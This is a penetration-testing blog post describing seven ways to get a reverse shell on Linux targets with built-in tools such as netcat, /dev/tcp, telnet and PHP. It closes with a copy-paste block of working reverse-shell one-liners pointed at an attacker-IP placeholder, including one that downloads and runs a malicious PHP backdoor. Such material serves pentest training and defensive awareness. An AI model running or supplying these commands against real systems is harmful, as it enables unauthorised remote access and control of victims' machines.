 title: 7 Linux Shells Using Built-in Tools
publish: True
categories: [network security]

There are many distributions of linux, and they all do things a little different regarding default security and built-in tool sets. Which means when engaging these different flavors during a pentest, what works against one linux target to get an interactive shell, may not work against another. Well, not to worry my friends, there are many techniques for spawning shells, specifically reverse shells, from linux, and one or more of these techniques is bound to be available no matter which distro you're looking at.

<!-- READMORE -->

The scenario is this: You have the ability to run a simple command, or cause a user to run a simple command, on the target system. Whether it be via a Remote Command Execution vulnerability in a website, or some sort of php injected XSS which causes a privileged user to run commands on the target system. There are many instances of this scenario. Starting from the easiest and most common, here are some of the techniques which can be used to gain reverse shell on the target system.

### #1. netcat

Surprise!!! Nothing new here. Plain and simple. Fire up a listener on the attacker machine on a port which is reachable from the target and connect back to the listener with netcat. Looks like this.

![](/images/posts/netcat.jpg)

...just kidding...

![](/images/posts/sh_nc_shell.png)

### #2. netcat with GAPING\_SECURITY\_HOLE disabled:

This is a little trick that [Ed Skoudis](https://twitter.com/#!/edskoudis) tweeted about in November of last year, but I haven't seen it widely publicized. It is based on the common technique used to build netcat relays. When the `GAPING_SECURITY_HOLE` is disabled, which means you don't have access to the '-e' option of netcat, most people pass on using netcat and move to something else. Well this just isn't necessary. Create a FIFO file system object and use it as a backpipe to relay standard output from commands piped from netcat to /bin/bash back into netcat. Sounds confusing right? The following image should clear things up.

![](/images/posts/sh_nc_gsh_shell.png)

### #3. netcat without netcat:

I love "hacks" that use features of the operating system against itself. This is one of those "hacks". It takes the /dev/tcp socket programming feature and uses it to redirect /bin/bash to a remote system. It's not always available, but can be quite handy when it is.

![](/images/posts/sh_nc_wo_nc.png)

### #4. netcat without netcat or /dev/tcp:

/dev/tcp not available either? Just use telnet with technique #2.

![](/images/posts/sh_nc_telnet.png)

### #5. telnet-to-telnet:

I'm not sure why you'd use this technique, but it's an option, so here it is nonetheless. This is clearly the ugliest of the techniques. This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to /bin/bash, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.

![](/images/posts/sh_tel2tel.png)

### #6. RCE shell:

On this one I'm cheating a little bit. This applies to Remote Command Execution vulnerabilities only. Rather than manually enter commands into a proxy or browser url, I wrote small python script which gives you the feel of a shell, without spawning anything in reverse from the target. You merely pass the script the vulnerable url with the injectable field replaced with the '&lt;rce&gt;' tag and it presents you with a clean interface for entering commands. In the background, the script is making the request to the web server, parsing the response, and presenting it to you.

![](/images/posts/sh_rce.png)

### #7. PHP reverse shell via interactive console:

The last technique makes use of the php interactive console. The attacker issues one command which moves to the /tmp directory (because it is typically world writable), uses wget to download a malicious php reverse_tcp backdoor (which the attacker hosts on a web server that he controls), and executes the backdoor via the interactive console.

![](/images/posts/sh_php.png)

I want to end this post by stating that I am not the originator of techniques #1, 2, 3, 5, or 7. The majority of these techniques were learned in Ed Skoudis' amazing Security 504 and 560 classes available through SANS. Technique #4 is something I've never seen but stumbled across as I was conducting the demos for this post, so I'll take credit. Obviously, anyone can do #6, and there are plugins for various automated web app testing software packages that do, but I built my script from the ground up and tailored it to preference. If you know of any additional methods that may be helpful to the pentesting community, please leave in the comments below. Without sharing, we all fail. Thanks, and enjoy!

For copy and paste:

``` bash
#1
nc <attacker_ip> <port> -e /bin/bash
#2
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#3
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
#4
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#5
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
#7
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```
